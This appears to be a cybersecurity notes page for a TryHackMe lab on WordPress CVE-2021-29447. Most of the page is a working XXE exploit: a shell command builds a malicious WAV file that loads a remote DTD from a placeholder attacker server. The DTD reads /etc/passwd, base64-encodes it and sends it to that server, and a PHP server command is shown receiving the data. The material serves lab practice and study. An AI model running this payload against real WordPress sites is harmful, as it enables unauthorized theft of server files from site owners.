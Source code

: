 # WordPress Core Exploitation

[![wordpresscve202129447](../../../../../../cybersecurity/_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

<div class="row row-cols-lg-2"><div>

WordPress core still has many [vulnerabilities](https://wpscan.com/wordpresses/) over the years.

* [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) which you can exploit following [wpscan](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5/) notes.

```shell!
$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/xxx.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
$ cat xxx.dtd
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
$ php -S 0.0.0.0:PORT
```
</div><div>
</div></div>